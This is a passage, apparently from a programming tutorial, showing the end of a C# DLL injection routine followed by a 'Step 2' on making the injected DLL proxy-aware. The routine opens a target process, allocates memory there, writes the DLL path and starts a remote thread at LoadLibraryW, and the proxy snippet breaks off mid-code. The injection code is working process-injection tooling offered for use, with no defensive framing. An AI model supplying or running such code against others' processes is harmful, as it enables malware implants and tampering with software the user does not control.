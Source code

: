 ```csharp
                Console.WriteLine("Failed to open target process.");
                return;
            }

            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, (uint)((dllPath.Length + 1) * Marshal.SizeOf(typeof(char))), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
            if (addr == IntPtr.Zero)
            {
                Console.WriteLine("Failed to allocate memory in target process.");
                CloseHandle(hProcess);
                return;
            }

            byte[] dllPathBytes = Encoding.Unicode.GetBytes(dllPath);
            if (!WriteProcessMemory(hProcess, addr, dllPathBytes, (uint)dllPathBytes.Length, out IntPtr _))
            {
                Console.WriteLine("Failed to write memory in target process.");
                CloseHandle(hProcess);
                return;
            }

            IntPtr hKernel32 = GetModuleHandle("kernel32.dll");
            IntPtr hLoadLibraryW = GetProcAddress(hKernel32, "LoadLibraryW");

            if (CreateRemoteThread(hProcess, IntPtr.Zero, 0, hLoadLibraryW, addr, 0, out IntPtr _) == IntPtr.Zero)
            {
                Console.WriteLine("Failed to create remote thread in target process.");
                CloseHandle(hProcess);
                return;
            }

            Console.WriteLine("DLL injected successfully.");
            CloseHandle(hProcess);
        }
    }
}
```

#### Step 2: Configure Proxy Settings (if needed)

If your DLL requires network communication and needs to be proxy-aware, you can set proxy settings in your DLL code using `WebRequest` or `HttpClient`. Here's an example of setting proxy settings in a C# class:

```csharp
using System;
using System.Net;

namespace YourNamespace
{
    public class ProxyAwareClass
    {
        public void SetProxy()
        {
            WebRequest.DefaultWebProxy = new WebProxy("http://yourproxy:8080")
            {
                Credentials = new NetworkCredential("username", "password")
            };

            // Example of using HttpClient with proxy
            HttpClientHandler handler = new HttpClientHandler()
            {
```